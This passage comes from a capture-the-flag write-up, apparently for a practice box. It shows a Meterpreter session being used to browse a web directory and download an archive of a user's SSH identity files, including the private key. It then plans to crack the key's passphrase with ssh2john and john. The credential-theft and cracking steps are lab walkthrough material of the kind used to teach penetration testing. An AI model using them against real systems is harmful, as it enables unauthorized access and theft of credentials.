 The configuration file above indicates the existence of a `public_www` directory inside the `/home` directory. After some trial and error, we can determine that this is David's home directory, as he's the admin.


```
meterpreter > cd /home/david/public_www
meterpreter > ls
Listing: /home/david/public_www
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  402   fil   2019-10-25 15:45:10 -0400  index.html
40755/rwxr-xr-x   4096  dir   2019-10-25 17:02:59 -0400  protected-file-area
```

Now we find a directory named `protected-file-area` inside of `/home/david/public_www`. This folder contains `backup-ssh-identity-files.tgz`, which we can hopefully use to gain user access to the box as david.

```
meterpreter > cd ./protected-file-area
meterpreter > ls
Listing: /home/david/public_www/protected-file-area
===================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  45    fil   2019-10-25 15:46:01 -0400  .htaccess
100644/rw-r--r--  1915  fil   2019-10-25 17:02:59 -0400  backup-ssh-identity-files.tgz

meterpreter > download ./backup-ssh-identity-files.tgz ./
[*] Downloading: ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
[*] Downloaded 1.87 KiB of 1.87 KiB (100.0%): ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
[*] download   : ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
meterpreter > 
```

We can download the `backup-ssh-identity-files.tgz` file through our Meterpreter session, and then extract it on our Kali box.


```
root@kali:~# tar -zxvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

```

When we try and use the keys we'll see that David has set a password required to unlock them, annoying. Using `ssh2john` we can create a hash of the private key to use to brute force the key through john.

